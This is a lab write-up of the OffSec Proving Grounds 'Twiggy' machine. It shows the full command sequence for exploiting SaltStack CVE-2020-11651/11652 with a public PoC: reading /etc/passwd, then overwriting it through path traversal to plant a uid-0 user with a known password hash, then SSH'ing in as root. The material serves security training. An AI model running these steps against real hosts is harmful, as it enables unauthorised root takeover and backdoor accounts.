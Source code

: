 **OffSec Proving Ground -- Twiggy Room Write-Up**
================================================
This write-up is for the OffSec Proving Grounds Practice machine "Twiggy" — not part of any exam or paid certification content. All information is publicly accessible and shared for educational purposes only.

**Overview**
------------

In this challenge, we exploited a SaltStack vulnerability (**CVE-2020-11651 / CVE-2020-11652**) in the Twiggy room. The Salt master's ZeroMQ service was exposed on ports **4505** and **4506**, allowing us to interact with the master and ultimately escalate our privileges to **root**.

* * * * *

**Enumeration**
---------------

### **Initial Scan**

We started our enumeration by scanning all ports using Nmap:

`nmap -sCV -v -T4 -p- 192.168.170.62 -oN enu/nmap-services.md`

![nmap results](.github/screenshots/twignmap.png)  

The scan revealed several services:

-   **22/tcp**: OpenSSH 7.4

-   **53/tcp**: NSD (domain)

-   **80/tcp**: nginx 1.16.1

-   **4505/tcp & 4506/tcp**: ZeroMQ (ZMQ 2.0)

-   **8000/tcp**: nginx 1.16.1

The key discovery was the presence of the **ZeroMQ** service.

* * * * *

### **Web Service Check**

We used `dirsearch` against the HTTP service:

`dirsearch -u http://192.168.170.62/`

![dir results](.github/screenshots/twigdir.png)  

Despite trying injection attacks and testing default credentials, nothing noteworthy was found on the web interface.

* * * * *

**Vulnerability Research and Exploitation**
-------------------------------------------

### **Identifying the Vulnerability**

Based on the Nmap results, we investigated the ZeroMQ service version. Research led us to **CVE-2020-11651**, a vulnerability in SaltStack that allows unauthenticated commands to the Salt master. A Python proof-of-concept exploit was publicly available and served as our entry point.

![poc](.github/screenshots/twigpoc.png)  

* * * * *

### **Running the Exploit**

We executed the exploit as follows:

`python3 zero.py --master 192.168.170.62`

![exploit-test](.github/screenshots/twigtest.png)  

The script successfully connected to the Salt master and retrieved a **root key** using the `_prep_auth_info` command.

* * * * *

### **Reading Files**

With the root key, we were able to read files from the target system. For example:

`python3 zero.py --master 192.168.170.62 -r /etc/passwd`

![read-test](.github/screenshots/twigread.png)  

This confirmed our access by returning the contents of `/etc/passwd`.

* * * * *

**Privilege Escalation**
------------------------

### **Creating a New Privileged User**

First, we generated a password hash:

`openssl passwd 123`

Then, we appended a new root user entry to our local `passwd` file:

`echo "slim:$1$r/5WEL9l$gr6/QAygoP4zISL2SSrfr1:0:0:root:/root:/bin/bash" >> files/passwd`

* * * * *

### **Overwriting the Target's `/etc/passwd`**

We uploaded the modified `passwd` file to the target system:

`python3 exploit/zero.py --master 192.168.170.62 --upload-src files/passwd --upload-dest ../../../../../../etc/passwd`

![upload-test](.github/screenshots/twigupload.png)  

The relative path allowed us to overwrite the target's `/etc/passwd`.

* * * * *

### **Obtaining a Root Shell**

Finally, we logged in as the new user:

`ssh slim@192.168.170.62`

![ssh-root](.github/screenshots/twigroot.png)  

This gave us **root access** to the machine.

* * * * *

**Conclusion**
--------------

By leveraging **CVE-2020-11651** and **CVE-2020-11652**, we were able to:

-   **Enumerate** open ports and identify exposed ZeroMQ services

-   **Exploit** the Salt master to retrieve a root key and read system files

-   **Escalate privileges** by uploading a custom `/etc/passwd` file

> 🛡️ This challenge highlights the critical importance of securing internal services and promptly patching known vulnerabilities.
